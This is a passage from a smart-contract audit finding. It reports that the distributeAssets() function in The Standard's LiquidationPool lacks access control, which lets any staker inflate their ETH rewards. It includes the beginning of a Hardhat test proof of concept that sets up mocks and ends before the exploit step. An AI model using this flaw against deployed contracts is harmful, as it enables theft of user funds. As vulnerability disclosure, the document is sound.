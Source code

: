 ## Summary
The [distributeAssets()](https://github.com/Cyfrin/2023-12-the-standard/blob/main/contracts/LiquidationPool.sol#L205) function has no access control and can be manipulated by any confirmed staker to increase their ETH reward to any value they wish to. There is no cost attached to the attack apart from the gas cost.

## PoC
Add a file `test\pwned.js` with the following code and run via `npx hardhat test --grep 'is pwned'` to see it pass.

```js
const { expect } = require("chai");
const { ethers } = require("hardhat");
const { ETH, getNFTMetadataContract, DEFAULT_EUR_USD_PRICE, DEFAULT_ETH_USD_PRICE, DEFAULT_COLLATERAL_RATE, fastForward, DAY, POOL_FEE_PERCENTAGE, fullyUpgradedSmartVaultManager, PROTOCOL_FEE_RATE } = require("./common");

describe('LiquidationPoolManager', async () => {
  let LiquidationPoolManager, LiquidationPool, TokenManager,
  TST, EUROs, ERC20MockFactory, admin, user, protocol, liquidator, ClEurUsd, ClEthUsd, VaultManager, SmartVaultIndex;

  const rewardAmountForAsset = (rewards, symbol) => {
    return rewards.filter(reward => reward.symbol === ethers.utils.formatBytes32String(symbol))[0].amount;
  }

  beforeEach(async () => {
    [admin, user, protocol, liquidator] = await ethers.getSigners();

    ERC20MockFactory = await ethers.getContractFactory('ERC20Mock');
    TST = await ERC20MockFactory.deploy('The Standard Token', 'TST', 18);
    EUROs = await (await ethers.getContractFactory('EUROsMock')).deploy();
    ClEurUsd = await (await ethers.getContractFactory('ChainlinkMock')).deploy('EUR / USD'); 
    await ClEurUsd.setPrice(DEFAULT_EUR_USD_PRICE);
    ClEthUsd = await (await ethers.getContractFactory('ChainlinkMock')).deploy('ETH / USD'); 
    await ClEthUsd.setPrice(DEFAULT_ETH_USD_PRICE);

    TokenManager = await (await ethers.getContractFactory('TokenManagerMock')).deploy(ETH, ClEthUsd.address);
    const SmartVaultDeployer = await (await ethers.getContractFactory('SmartVaultDeployerV3')).deploy(ETH, ClEurUsd.address);
    SmartVaultIndex = await (await ethers.getContractFactory('SmartVaultIndex')).deploy();
    const NFTMetadataGenerator = await (await getNFTMetadataContract()).deploy();
    const SwapRouterMock = await (await ethers.getContractFactory('SwapRouterMock')).deploy();
    const MockWeth = await (await ethers.getContractFactory('WETHMock')).deploy();
    VaultManager = await fullyUpgradedSmartVaultManager(
      DEFAULT_COLLATERAL_RATE, PROTOCOL_FEE_RATE, EUROs.address, protocol.address, 
      liquidator.address, TokenManager.address, SmartVaultDeployer.address,
      SmartVaultIndex.address, NFTMetadataGenerator.address, MockWeth.address,
      SwapRouterMock.address
    );
    await SmartVaultIndex.setVaultManager(VaultManager.address);
    await EUROs.grantRole(await EUROs.DEFAULT_ADMIN_ROLE(), VaultManager.address);
    await VaultManager.connect(user).mint();
    
    const LiquidationPoolManagerContract = await ethers.getContractFactory('LiquidationPoolManager');
    LiquidationPoolManager = await LiquidationPoolManagerContract.deploy(
      TST.address, EUROs.address, VaultManager.address, ClEurUsd.address, protocol.address, POOL_FEE_PERCENTAGE
    );
```